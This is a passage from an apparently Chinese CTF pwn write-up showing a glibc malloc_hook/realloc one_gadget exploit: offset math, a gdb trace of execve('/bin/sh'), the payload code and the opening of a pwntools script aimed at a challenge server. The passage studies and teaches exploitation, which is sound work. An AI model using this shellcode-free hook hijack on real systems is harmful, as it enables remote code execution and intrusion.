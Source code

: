 1. realloc_hook =  libc_base + 0xf02a4
2. malloc_hook =  realloc_addr + 12

#### execve执行情况如下

```
0x7fe7cb15715d <exec_comm+2285>    call   execve <0x7fe7cb132770>
path: 0x7fe7cb1f2d57 ◂— 0x68732f6e69622f /* '/bin/sh' */
argv: 0x7ffe640ad200 ◂— 0x0
envp: 0x7ffe640ad2c8 —▸ 0x7ffe640adfaf ◂— 'LD_PRELOAD=/lib/x86_64-linux-gnu/libc.so.6'
```

#### payload构造如下

```python
	gadget = [0x45216, 0x4526a, 0xf02a4, 0xf1147]
	one_gadget = gadget[2] + libc_base
	realloc_addr = libc_base + lib.sym['realloc']
	li('realloc_addr ' + hex(realloc_addr))

	p = '\x11' * (0x13 - 0x8)
	p += p64(one_gadget)
	p += p64(realloc_addr + 12) #ajust execve second perm as 0
	p += '\n'
	ad(0x68, p)
	
```

## get shell

```python
	# get shell
	sla('>>', '1')
	sl('10')
```



## exp

```python
#!/usr/bin/env python
#-*- coding:utf-8 -*-

# Author: I0gan

from pwn import *
#from LibcSearcher import LibcSearcher

#context.log_level='debug'
#context.terminal = ['konsole', '-x', 'bash', 'c']
#context.terminal = 'konsole'

#context(arch = 'i386', os = 'linux', log_level='debug')
context(arch = 'amd64', os = 'linux', log_level='debug')

exeFile  = "pwn"
libFile  = "./libc.so.6"
#libFile  = "/lib/x86_64-linux-gnu/libc.so.6"

remoteIp = "39.97.119.22"
remotePort = 10002

LOCAL = 0
LIB   = 1

```